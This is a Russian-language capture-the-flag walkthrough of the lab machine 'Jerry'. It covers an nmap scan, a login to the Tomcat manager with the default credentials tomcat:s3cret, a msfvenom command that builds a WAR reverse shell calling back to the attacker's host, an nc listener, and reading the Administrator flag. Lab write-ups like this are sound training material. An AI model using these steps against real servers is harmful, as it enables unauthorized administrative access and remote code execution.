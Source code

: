 # Jerry (Windows, Easy)

![](<../../../../.gitbook/assets/1 (1) (1) (1).png>)

### Содержание:

В самом начале мы сканируем порты и обнаруживаем только один порт. На данном порту расположен tomcat. Используя дефолтные значения, заходим в панель tomcat и загружаем туда war-эксплоит, который даст нам реверс шелл, который будет уже с правами админа.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.95 -oN nmap
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

### Входим с помощью дефолтных данных:

На 8080 порту мы видим tomcat:

![](<../../../../.gitbook/assets/2 (1) (1) (1).png>)

Можем перейти на /manager/html и использовать дефолтные креды, чтобы попасть в панель админа:

`tomcat:s3cret`

![](<../../../../.gitbook/assets/3 (1) (1) (1) (1).png>)

### Создаем war эксплоит с помощью msfvenom:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.43 LPORT=9898 -f war > shell.war
```

Загружаем в tomcat:

![](<../../../../.gitbook/assets/4 (1) (1).png>)

Ставим листенер:

```
$ nc -nlvp 9898
```

### Запускаем эксплоит и получаем администратора:

Заходим по [http://10.10.10.95:8080/shell](http://10.10.10.95:8080/shell) и получаем шелл. Изначально оболочка получается сразу от имени админа, можно прочитать файл с флагом с помощью данной команды:

```
C:\Users\Administrator\Desktop\flags>type "C:\Users\Administrator\Desktop\flags\2 f
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](<../../../../.gitbook/assets/5 (4).png>)
